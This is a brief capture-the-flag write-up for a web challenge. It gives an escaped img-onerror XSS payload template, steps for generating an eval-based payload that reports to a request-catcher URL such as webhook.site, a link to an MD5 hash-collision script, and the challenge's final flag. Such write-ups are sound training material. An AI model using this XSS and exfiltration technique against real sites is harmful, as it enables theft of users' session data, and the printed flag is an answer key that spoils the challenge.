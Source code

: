 **Challenge:** http://159.65.249.122:4117/

Payload : `\x3cimg src onerror=<Javascript code>\x3e`

Create an HTTP server or you can use some online solutions like https://webhook.site/ or https://requestbin.com/.

Use this [javascript code](https://gist.github.com/EffectRenan/9e85ddc199668e7b56decd88c875ef6e) to generate a payload which use `eval` function.
  - Edit the variable `host` with your URL.
  - Execute: `node eval-charcode.js`.

Final payload: `\x3cimg src onerror=<Eval function generated>\x3e`

Access `http://159.65.249.122:4117/contact` to get the bytes for hash collision.

Use [this python script](https://gist.github.com/EffectRenan/2425aa1ab52e35f6f8ee8b31b2582d65) to generate a hash collision.
  - `python2 MD5-collision.py "<bytes given>" 0`

Send the final payload to Admin and you will receive a request with the flag.

**Flag:** HACKAFLAG{Tw1c3_0r_d0ubl3_1ts_th3_s4m3_th1ng}
